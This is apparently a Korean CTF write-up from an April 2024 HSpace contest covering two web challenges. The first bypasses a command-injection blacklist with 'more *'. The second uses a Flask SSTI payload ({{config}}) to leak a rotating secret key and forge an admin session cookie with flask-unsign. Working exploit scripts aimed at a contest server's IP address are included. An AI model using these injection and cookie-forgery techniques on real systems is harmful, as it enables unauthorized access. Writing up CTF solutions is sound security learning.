


# 2024년 04월 Space WAR Write-UP

- 이름: 김진일  
- 닉네임: ^w3b$ 
- 소속: 한동대학교
- 메일 주소 (HSpace 가입 메일): jiniljeil1@gmail.com

------


# Problem

- 분야: 웹
- 체감 난이도(1-10): 2
- Flag: `hspace{catflag!!}`

## 풀이과정

```python
def execute_command(command):
    try:
        result = subprocess.run(command, shell=True, capture_output=True, text=True)
        output = result.stdout.strip()
        error = result.stderr.strip()
        if output:
            return output
        if error:
            return error
    except Exception as e:
        return str(e)

@app.route('/execute_command', methods=['POST'])
def execute_command_route():
    global command_executed, last_execution_time
    current_time = time.time()
    if command_executed and (current_time - last_execution_time) < 30:
        time_left = 30 - (current_time - last_execution_time)
        return f"You've already executed a command! Please wait {int(time_left)} seconds before trying again."
    command = request.form['command']
    if not is_valid_command(command):
        return "try harder!"
    result = execute_command(command)
    command_executed = True
    last_execution_time = current_time
    return result
```
POST 요청을 통해 `command` 값을 전달하면, `execute_command()` 함수에서 명령을 실행합니다.    
      
```python
blacklist = set('flag/')

def is_valid_command(command):
    if any(char in blacklist for char in command):
        return False
    return True
```      
대신, `is_valid_command()` 함수로 인해 `'f','l','a','g','/'` 문자를 사용할 수 없습니다.       
      
`more *` 명령을 실행히면 위 문자를 사용하지 않고 해당 디렉터리에 파일 내용을 볼 수 있습니다.    

             
       
## Exploit Code

```python
import requests 
url = "http://3.36.132.18:5678"

r = requests.post(
    f"{url}/execute_command",
    data={
        "command": "more *"
    }
)
print(r.text)
```

## 후기

Command Injection 우회 방법들을 다시 리마인드 할 수 있는 좋은 기회였던 것 같습니다. 

------

# Problem

- 분야: 웹
- 체감 난이도(1-10): 4
- Flag: `hspace{Th3_s3cret_key_Mu5t_nOT_Be_le4KeD!!!}`

## 풀이과정
     
```python
try:
    FLAG = open("./flag.txt", "r").read()
except :
    FLAG = "hspace{fake_flag}"

...

@app.route('/admin')
def admin():
    if 'admin' not in session:
        return render_template_string('<script>alert("You are not admin!");location.href="/login"</script>')
    else:
        return "Hello admin here is "+FLAG
```
플래그를 획득하기 위해서 `/admin` 경로에 접근해야합니다.       
             
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if len(username) > 11: 
            return render_template_string('<script>alert("username too looooong"); location.href="/login"</script>')
        if username == 'guest' and password == users.get('guest'):
            session['guest'] = True
            return redirect(url_for('guest'))
        elif username in users and users[username] == password:
            session['admin'] = True if username == 'admin' else False
            return redirect(url_for('admin'))
        else:
            # ssti
            return render_template_string(f"{username} is wrong username or password")
    return render_template('login.html')
```   
로그인에 실패할 경우, `render_template_string()` 함수를 통해 랜더링이 됩니다. 하지만, 해당 함수는 SSTI 취약점을 발생시킬 수 있습니다.   

`username` 값으로 `{{config}}`를 입력하면, `config` 클래스에 저장된 `SECRET_KEY` 값을 알아낼 수 있습니다.     
       
```python
def generate_new_secret_key():
    return os.urandom(30).hex()

def update_secret_key():
    while True:
        time.sleep(0.5)
        with secret_key_lock:
            app.secret_key = generate_new_secret_key()
thread = threading.Thread(target=update_secret_key)
thread.start()
```     
대신, 0.5초 마다 새로운 `SECRET_KEY`를 생성하기 때문에 `{{config}}`를 통해 얻은 `SECRET_KEY`를 바로 사용해줘야 합니다.    
     
`SECRET_KEY`를 사용하여 `admin` 계정의 JWT 토큰을 생성해주면, `/admin` 경로에 접근이 가능하여 플래그를 획득할 수 있습니다.               
     
   
            
## Exploit Code     
```python
import requests 
import os

url = "http://3.36.132.18:4000"

s = requests.session() 
r = requests.post(
        f"{url}/login", 
        data={
            "username": "{{config}}",
            "password": "test"
        }
)
        
secret_key = r.text[r.text.find("SECRET_KEY") + 22: r.text.find("SECRET_KEY") + 82]

header = {"admin": True}
cmd = "flask-unsign --sign --cookie \"" + "{'admin': 'true'}" + f"\" --secret '{secret_key}'"
print(cmd)
jwt_encode = os.popen(cmd).read().split("\n")[0]
        
print("jwt:", jwt_encode)

r = requests.get(
    f"{url}/admin",
    cookies={"session":jwt_encode}
)

if "Hello" in r.text:
    print(r.text)
    exit()
```
       
## 후기

`jwt` 값을 생성하기 위해 `urlsafe_b64encode()`과 `SHA256` 해시 알고리즘을 사용하여 토큰을 생성하였는데 `Flask session`에 사용되는 토큰 인증 방식과 달라서 삽질을 많이 했습니다...
    
찾아보니 `flask-unsign` 모듈이 존재하여 이를 사용하니 해결할 수 있었습니다. 

새로운 지식을 얻을 수 있어서 좋았습니다.                 
          
------